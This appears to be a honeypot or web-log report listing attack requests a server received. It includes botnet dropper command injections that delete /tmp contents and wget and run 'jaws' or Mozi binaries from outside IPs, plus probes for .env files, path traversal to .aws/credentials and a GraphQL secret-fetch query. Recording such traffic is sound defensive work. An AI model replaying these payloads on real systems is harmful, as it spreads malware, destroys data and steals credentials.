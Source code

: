 ## botnet_dropper_behaviour
| remote_addr    | request                                                                                                    |
|:---------------|:-----------------------------------------------------------------------------------------------------------|
| 8.219.240.83   | GET /shell?cd+/tmp;rm+-rf+*;wget+196.251.86.86/jaws;sh+/tmp/jaws HTTP/1.1                                  |
| 197.37.23.248  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                               |
| 41.232.127.85  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                               |
| 120.85.118.111 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1 |
| 61.238.192.187 | GET /shell?cd+/tmp;rm+-rf+*;wget+38.57.46.116/jaws;sh+/tmp/jaws HTTP/1.1                                   |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|      |   number_of_occurence | request                                                                                                                             |
|-----:|----------------------:|:------------------------------------------------------------------------------------------------------------------------------------|
| 1225 |                     1 | GET /build/bundle.[hash].js HTTP/1.1                                                                                                |
| 1226 |                     1 | GET /assets/js/app.*.js HTTP/1.1                                                                                                    |
| 1227 |                     1 | GET /_next/static/chunks/pages/api/contact.js HTTP/1.1                                                                              |
| 1228 |                     1 | GET /_next/static/chunks/framework-*.js HTTP/1.1                                                                                    |
| 1229 |                     1 | GET /_next/static/chunks/pages/_app.js HTTP/1.1                                                                                     |
| 1230 |                     1 | GET /_next/static/chunks/pages/index.js HTTP/1.1                                                                                    |
| 1231 |                     1 | GET /.vercel/output/static/index.js HTTP/1.1                                                                                        |
| 1232 |                     1 | GET /.vite/manifest.json HTTP/1.1                                                                                                   |
| 1233 |                     1 | GET /.next/server/pages/api/send.js HTTP/1.1                                                                                        |
| 1234 |                     1 | GET /.output/server/chunks/config.mjs HTTP/1.1                                                                                      |
| 1235 |                     1 | GET /.output/server/index.mjs HTTP/1.1                                                                                              |
| 1236 |                     1 | GET /.nuxt/dist/server/server.mjs HTTP/1.1                                                                                          |
| 1237 |                     1 | GET /sendmail.php HTTP/1.1                                                                                                          |
| 1238 |                     1 | GET /sendgrid/sendmail.php HTTP/1.1                                                                                                 |
| 1239 |                     1 | GET /api/sendinblue/send HTTP/1.1                                                                                                   |
| 1240 |                     1 | GET /api/sendgrid/send HTTP/1.1                                                                                                     |
| 1241 |                     1 | POST /config/config.env HTTP/1.1                                                                                                    |
| 1242 |                     1 | POST /config/.env HTTP/1.1                                                                                                          |
| 1245 |                     1 | GET /api/ses/send HTTP/1.1                                                                                                          |
| 1246 |                     1 | GET /api/email/send HTTP/1.1                                                                                                        |
| 1247 |                     1 | GET /mail/send HTTP/1.1                                                                                                             |
| 1249 |                     1 | GET /../../../../../../home/ubuntu/.env HTTP/1.1                                                                                    |
| 1250 |                     1 | GET /../../../../../../config/config.php HTTP/1.1                                                                                   |
| 1251 |                     1 | GET /../../../../../../.aws/credentials HTTP/1.1                                                                                    |
| 1254 |                     1 | GET /api/graphql?query=query{fetchSecret(path:\x22/root/.aws/credentials\x22)} HTTP/1.1                                             |